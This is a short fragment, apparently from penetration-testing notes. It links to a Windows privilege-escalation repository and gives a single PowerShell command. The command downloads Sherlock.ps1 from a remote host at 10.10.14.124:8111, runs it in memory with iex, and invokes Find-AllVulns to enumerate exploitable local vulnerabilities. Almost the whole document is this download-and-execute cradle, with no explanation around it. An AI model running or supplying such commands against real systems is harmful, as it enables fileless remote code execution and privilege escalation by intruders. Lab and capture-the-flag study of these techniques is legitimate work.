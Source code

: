 https://github.com/frizb/Windows-Privilege-Escalation
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.ps1'); Find-AllVulns
